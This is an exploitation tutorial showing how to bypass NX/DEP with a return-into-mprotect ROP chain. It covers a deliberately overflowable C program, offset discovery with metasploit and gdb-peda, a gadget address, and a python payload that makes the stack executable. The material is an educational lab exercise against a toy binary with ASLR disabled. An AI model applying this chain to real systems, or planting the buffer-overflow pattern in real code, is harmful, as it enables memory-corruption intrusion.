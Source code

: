 ## ROP : pointer leaking + return-into-mprotect()

- - -

#### We are in the era of high complexity to bypass mitigation against memory corruption.

**Ret2mprotect** is an elegant way to bypass mitigation like **NX/DEP** by using ```mprotect()``` to set memory protection.

I assume that you are confortable with x86 stack-based overflow, ASM and shellcode.

Let's take a vanilla sample :

```
#include<stdio.h>
#include<stdlib.h>

int main() {
    char name[512];
    fgets(name, 1024, stdin);
    printf("Hello %s", name);
    return 0;
}
```

Compile with explicit *noexecutable stack* flag.

```
$ gcc -m32 pwnme.c -o pwnme -znoexecstack

$ file pwnme exploitme: ELF 32-bit LSB executable, Intel 80386, version 1
(SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.26,
BuildID[sha1]=0x19883d935e336675dd19ceb894dc09fd15e5903c, not stripped
```

Basically, same methodology for any x86 stack-based overflow by creating a unique pattern (I use *metasploit*).

We will override ```EIP``` at ```offset 524```.

```
$ /usr/share/metasploit-framework/tools/pattern_create.rb 999 > /tmp/in

$ gdb ~/pwnme -q
gdb-peda$ r < /tmp/in
Stopped reason: SIGSEGV 0x35724134 in ?? ()

$ /usr/share/metasploit-framework/tools/pattern_offset.rb 0x35724134
[*] Exact match at offset 524
```

Our stack begin at ```0xfffdd000``` and have a size of ```0x21000```.

```
gdb-peda$ vmmap

Start      End        Perm  Name
0xfffdd000 0xffffe000 rw-p  [stack]
```

Assuming that **ASLR** is disabled.

The address of ```mprotect()``` is ```0xf7f2d2e0```

```
gdb-peda$ p mprotect

$1 = {<text variable, no debug info>} 0xf7f2d2e0 <mprotect>
```

The manual of ```mprotect()``` give us the signature of the function.

```
$ man mprotect

NAME mprotect - set protection on a region of memory

SYNOPSIS #include <sys/mman.h> int mprotect(void *addr, size_t len, int prot);
```

Thus we know which argument to push.

It should look like this : ```mprotect(0xfffdd000, 0x21000, 0x7);```

```
gdb-peda$ searchmem CC 0xfffdd000 0xffffe000

Searching for 'cc' in range: 0xfffdd000 - 0xffffe000
0xffffd2c0 --> 0xcccccccc [stack] : 0xffffd2c1 --> 0xcccccccc [stack] :
0xffffd2c2 --> 0xcccccccc [stack] : 0xffffd2c3 --> 0xcccccccc [stack] :
0xffffd2c4 --> 0xcccccccc [stack] : 0xffffd2c5 --> 0xcccccccc [stack] :
0xffffd2c6 --> 0xcccccccc [stack] : 0xffffd2c7 --> 0xcccccccc [stack] :
```

Gogo Gadget. :o)

```
gdb-peda$ ropgadget

pop3ret = 0x8048882
```

Finally.

```
python -c "print
    '\xCC' * 524            # CC is the opcode for SIGTRAP
    +'\xe0\xd2\xf2\xf7'     # address of mprotect()
    +'\x82\x88\x04\x08'     # pop3ret cleaning the stack layout
    +'\x00\xd0\xfd\xff'     # address of the stack
    +'\x00\x10\x02\x00'     # size of the stack
    +'\x07\x00\x00\x00'     # flag read/write/execute
    +'\xc0\xd2\xff\xff'     # payload on the stack ;)
    "
```

Now, you can notice that the stack is executable.

```
gdb-peda$ vmmap

Start      End        Perm  Name
0xfffdd000 0xffffe000 rwxp	[stack]
```

[@tfairane](https://twitter.com/tfairane) greetz [@barrebas](https://twitter.com/barrebas)
